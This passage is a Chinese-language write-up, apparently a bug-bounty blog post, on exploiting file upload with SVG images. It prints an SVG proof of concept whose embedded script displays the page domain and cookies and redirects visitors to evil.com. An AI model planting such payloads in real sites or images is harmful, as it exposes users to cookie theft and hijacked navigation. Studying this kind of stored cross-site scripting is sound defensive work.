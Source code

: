   
  
  
  
  
当你开始测试文件上传漏洞时，有很多事情要做，所以我建议阅读以下文章，了解大多数文件上传漏洞技术  
。  
但我们将重点关注  
SVG 文件  
。  
> 什么是 SVG：  
可缩放矢量图形 (SVG) 是一种  
基于 XML 的  
矢量图像格式，可以包含交互式和动画图形。SVG 文件还可以  
包含 JavaScript 代码  
，可用于各种任务，包括动画。由于 SVG 文件可以在 HTML 中被视为图像，因此可以将它们放在图像标签中，并完美呈现。例如<img src="rectangle.svg" alt="Rectangle" height="20" width="30">  
  
  
SVG文件  
（"rectangle.svg"  
）  
可能类似于以下内容  
```
< svg  width = "200"  height = "100"  xmlns = "http://www.w3.org/2000/svg" > 
  < rect  x = "20"  y = "20"  width = "160"  height = "60"  fill = "blue" /> 
</ svg > 
<!-->用于创建蓝色矩形的 SVG 文件<-->
```  
  
我能够上传一个  
包含  
恶意脚本的  
SVG 文件  
，该文件未经正确清理，导致脚本执行。  
  
  
以下是  
我创建的  
恶意 SVG文件  
```
<?xml version= "1.0" standalone= "no" ?> 
<!DOCTYPE svg  PUBLIC  "-//W3C//DTD SVG 1.1//EN"  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" > 
< svg  version = "1.1"  baseProfile = "full"  xmlns = "http://www.w3.org/2000/svg" > 
   < rect  width = "300"  height = "100"  style = "fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> 
   < script  type = "text/javascript" > 
      alert("您已被黑客入侵！！" + "\n" + "域：" + document.domain + "\n" + "Cookie：" + document.cookie ); 
      window.location.href="https://evil.com" 
   </ script > 
</ svg >
```  
  
让我们上传它  
  
  
我  
导航  
到文件  
  